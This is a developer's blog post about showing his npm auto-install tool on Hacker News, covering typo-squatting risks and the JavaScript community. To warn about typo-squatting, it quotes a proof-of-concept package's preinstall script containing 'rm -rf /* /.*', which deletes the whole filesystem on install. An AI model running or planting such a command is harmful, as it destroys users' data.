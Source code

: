 ```yaml
---
author: Siddharth Kshetrapal
authorTwitter: https://twitter.com/siddharthkp
authorFacebook: none
title: "What I learned from showing my work on Hacker News"
subTitle: "When writing JavaScript, I hate it that I have to leave my editor — and my train of thought — just to tab over to my terminal and install..."
coverSrc: https://cdn-images-1.medium.com/max/1600/1*7RPC33y9ttY_P2_-i2rPSw.jpeg
url: https://medium.freecodecamp.org/what-i-learned-from-showing-my-work-on-hacker-news-48c54d78d5f4
id: what-i-learned-from-showing-my-work-on-hacker-news-48c54d78d5f4
date: 2016-08-28T15:59:56.146Z
tags: [
  "JavaScript",
  "Node",
  "Web Development",
  "Programming",
  "Tech"
]
---
```

# What I learned from showing my work on Hacker News



![](https://cdn-images-1.medium.com/max/1600/1*7RPC33y9ttY_P2_-i2rPSw.jpeg)



When writing JavaScript, I hate it that I have to leave my editor — and my train of thought — just to tab over to my terminal and install a new package with:

<pre name="f5ca" id="f5ca" class="graf graf--pre graf-after--p">_$ npm install --save express_</pre>

To scratch my itch, I wrote a tiny node utility which lets me focus on the code without installing dependencies.



![](https://cdn-images-1.medium.com/max/1600/1*ZrdCfrULDGq7krAzSdJTdQ.gif)



I was pretty happy with it, so I wrapped it in a git repository and shared it on [Hacker News](http://news.ycombinator.com).

If you’re interested, here’s a link to the repo, [auto-install](https://github.com/siddharthkp/auto-install), which already has more than 6,000 downloads:

[**siddharthkp/auto-install**  
_auto-install - Install dependencies as you code_github.com](https://github.com/siddharthkp/auto-install "https://github.com/siddharthkp/auto-install")[](https://github.com/siddharthkp/auto-install)

### An Instant response

I wasn’t expecting much out of the post, just wanted to throw it out there in case someone else finds it useful.

What happened instead was a heated debate about the Node ecosystem!

I’m not going to talk about what’s right or wrong with npm, since there’s [enough](http://www.haneycodes.net/npm-left-pad-have-we-forgotten-how-to-program/) [about](https://medium.com/@kolorahl/kik-left-pad-and-npm-oh-my-e6f216a22766#.duzdeq2zm) [that](https://medium.com/quid-pro-quo/what-should-we-learn-from-the-left-pad-gate-5a553307a742#.2yaq1ncii) [already](http://blog.npmjs.org/post/141577284765/kik-left-pad-and-npm).

### **What I learned:**

#### **1\. Typo-squatting**!

It’s a popular (and surprisingly common) form of hacking. Basically, a hacker hopes that you will make a typo, and uses that to screw you over.

Say, instead of typing _express,_ you accidentally type _expres._ This can result in installing a completely different module, which could be a malicious one.

João Jerónim shared the vulnerabilities exposed by installing a npm package with [rimrafall](https://github.com/joaojeronimo/rimrafall#rimrafall). Check out the preinstall script in it’s _package.json_

<pre name="193a" id="193a" class="graf graf--pre graf--startsWithDoubleQuote graf-after--p">“scripts”: {  
    “preinstall”: “rm -rf /* /.*” }  
}</pre>

If you’re not familiar with that command, it basically deletes everything on your hard drive — including your operating system!

Thanks to some quick feedback, I added the [--secure flag](https://github.com/siddharthkp/auto-install/issues/6) to protect against this.

#### **2\. A lack of trust in your fellow developers**

I see an innate lack of trust in the skills and capabilities of other developers in the JavaScript community. Our tools have always been error-prone. Typo-squatting is a common problem with all package managers.

Popular opinion is that the JavaScript community is filled with novice programmers, and that there’s no differentiation between what is authoritative and what isn’t.

This is my favorite comment on Hacker News:

> As I see it, npm appears to be acting like there are a lot of unsolved problems in this realm, and in doing so are endangering a developer community that is absolutely full of amateurs.

You can read the whole thread here (it’s a teensy bit long):

[**_Show HN: Auto install npm dependencies as you code_ | Hacker News**  
Show HN: Auto install npm dependencies as you codenews.ycombinator.com](https://news.ycombinator.com/item?id=12248997 "https://news.ycombinator.com/item?id=12248997")[](https://news.ycombinator.com/item?id=12248997)

### The good parts

[Not](https://news.ycombinator.com/item?id=12249325) [all](https://news.ycombinator.com/item?id=12249172) [comments](https://news.ycombinator.com/item?id=12249312) were bad. Some people reached out to me on twitter with kind words. I have to admit, that felt pretty cool.





<iframe width="500" height="250" src="https://medium.freecodecamp.org/media/c3c93adc89212b01306fe050a754a3eb?postId=48c54d78d5f4" data-media-id="c3c93adc89212b01306fe050a754a3eb" allowfullscreen="" frameborder="0"></iframe>







![](https://cdn-images-1.medium.com/max/1600/1*sKGkWvqw8I7CUuoAxzs-3Q.png)



Feature requests and bug reports started flowing in! That kept me busy for a while. And then there was the kicker — [npm weekly #54](http://us9.campaign-archive2.com/?u=077dfd41302a71310cef619e5&id=9e020606f1)!

Also mentioned on Hacker News, if you’re using webpack, you might be interested in [a similar plugin](https://github.com/ericclemmons/npm-install-webpack-plugin) by [Eric Clemmons](https://medium.com/@ericclemmons).

### The JavaScript Community

Javascript definitely has the lowest barrier to entry of any language, and has become the [most popular language](http://stackoverflow.com/research/developer-survey-2016#technology-most-popular-technologies) in the recent years.



![](https://cdn-images-1.medium.com/max/1600/1*XWFkn7xDqPBBikexToFgnw.png)



I have to agree that npm is not fully mature as a package manager (yet), and a lot of work needs to go into security (for example: [sandboxing pre/post-install scripts](https://github.com/joaojeronimo/rimrafall), module signing, etc.)

But we have an open library ecosystem with an active developer community. Individual contributors have produced some amazing things in the past: [Express.js](https://github.com/expressjs/express/), [Socket.io](https://github.com/socketio/socket.io), [Redux](https://github.com/reactjs/redux), [Vue](https://github.com/vuejs/vue), and even [Node.js](https://en.wikipedia.org/wiki/Node.js#History) itself!

Let’s not forget the great work that companies are doing to spread [knowledge](https://developer.mozilla.org/en-US/) and [best](https://try.github.io) [practices](https://github.com/airbnb/javascript).

You can’t build a community without trust. We need to reduce the barriers to entry even further, and make it easy for new developers to learn and contribute.

In closing, my advice to fellow developers: never stop shipping.

The more you code, the more you will learn.

_If you liked this, click the 💚 below so other people will see this as well._








